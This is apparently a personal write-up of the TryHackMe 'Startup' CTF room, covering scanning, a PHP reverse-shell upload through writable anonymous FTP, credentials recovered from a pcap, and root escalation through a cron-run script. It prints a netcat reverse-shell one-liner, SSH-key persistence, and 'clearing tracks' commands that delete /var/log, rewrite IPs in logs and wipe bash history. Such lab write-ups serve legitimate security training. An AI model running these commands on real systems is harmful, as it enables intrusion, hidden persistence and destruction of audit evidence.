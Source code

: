 ```yaml
---
title: "THM:startup"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/startup"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,ssh2john,linpeas,privesc,cron
---
```

# THM:startup

URL: [https://tryhackme.com/room/startup](https://tryhackme.com/room/startup) [Easy]

Tags: 
<div style="margin-left: 5px;">
{% assign tags = page.tags | split: "," %}
{% for tag in tags %}
<a href="../search/?q={{tag}}" title="Click to search by this tag"><span class="badge bg-secondary">{{tag}}</span></a>
{% endfor %}
</div>
<hr>

## Reconnaissance

Description of the room:

> We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Anonymous FTP has an Among Us meme, and a text file telling people to stop leaving memes on that file share. The `ftp` folder is writable. That could be something?

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found:

```python
/files                (Status: 301) [Size: 312] [--> http://10.10.159.60/files/]
```

Also see: [gobuster.log](gobuster.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Nothing interesting found.


Also see: [nikto.log](nikto.log)

## Gaining Access

### Unprivileged Access

Since the anonymous FTP folder `/ftp/` is writeable, you can do a `put revshell.php` into that folder, and then execute that reverse shell from the `/files/revshell.php` URL in the browser.

That will get you a primitive shell running as the `www-data` user.

### Privilege Escalation (power user)

First, to privesc into the `lennie` account (you can see their home folder under `/home/`), look in the `incidents` folder for a pcap file. If you download that file and view it with Wireshark, you can see there was a password attempt. It was a bad password attempt for `www-data`, but that IS the password for `lennie`.

Meaning, you can now do `su - lennie` with that newly found password. You are now logged-in as `lennie`.

### Privilege Escalation (root)

The Hint from TryHackMe for root privesc is "scripts". Well, in Lennie's home folder there is a `~/scripts/` folder. In there is a bash script that calls `/etc/print.sh`. In short, it looks like something external kicks off that script, but we don't know what it is.

So, we modify `/etc/print.sh` to reverse shell back to our workstation by adding something like:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8080 >/tmp/f
```

and then listen on your workstation with something like this:

```bash
nc -lvnp 8080
```

After a minute or so, you've got a prompt, and it's a root prompt!


## Maintaining Access

To not have to deal with half-broken shells, I added my SSH public key to `/home/lennie/.ssh/authorized_keys` and set the permissions on that file to `chmod 600 ./authorized_keys`. That way, instead of working out of reverse shells with bad rendering, I could now just:

```bash
ssh lennie@x.x.x.x
```

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/lennie/.bash_history`

## Summary

Completed: [2023-07-20 21:01:11]
